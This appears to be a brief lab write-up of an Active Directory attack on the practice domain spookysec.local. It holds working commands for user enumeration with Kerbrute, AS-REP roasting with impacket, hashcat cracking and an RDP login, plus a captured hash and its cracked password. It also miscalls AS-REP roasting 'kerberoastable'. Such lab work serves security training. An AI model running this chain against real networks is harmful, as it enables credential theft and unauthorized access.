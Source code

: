 Enumeration valid AD users using Kerbrute
```bash
kerbrute -domain spookysec.local -dc-ip 10.10.208.7 -users userlist.txt -t 100
```

![[Pasted image 20240812085847.png]]

`svc-admin` has no PREAUTH which means it is kerberoastable

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.208.7 -no-pass
```

Found a valid hash for `svc-admin`
```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b6f5873148e887127f10601d6036a551$f54f2a02048aad6f415955bbcfc315cabf96bcd8d6a898b3b9903183e876582b934c8bb5416e06443a5a4251a7e4b9d4527417646b339842fa540004675627fabc2f783cdaf7c50d04199c3a72927f6ae19476ff5884178df22ab54e05050cccbf8439c8fde544997098bbfb74c4cb9dbe527ff1fa4a4dc05a4ae414f5c457768a698271b60a750afba65384812ab4c483dec492e26a2ce330b7067c22548abff984abcb2a8956d3c0f415abaf6b040dd130664249eda4ceaee39914ac1ecf509290e3916ffe28cbdf9928f269a917c214a14d076032115423cebc8222a79fc67e761b9f80e53c0e01ae0672375b8f5c95be
```

Cracked hash using hashcat
```bash
hashcat -m 18200 svc-admin.hash /usr/share/wordlists/rockyou.txt --force
```

`svc-admin:management2005`

Can RDP as `svc-admin` using above creds
```bash
nxc rdp 10.10.208.7 -u 'svc-admin' -p 'management2005' -d spookysec.local
```
![[Pasted image 20240812092040.png]]

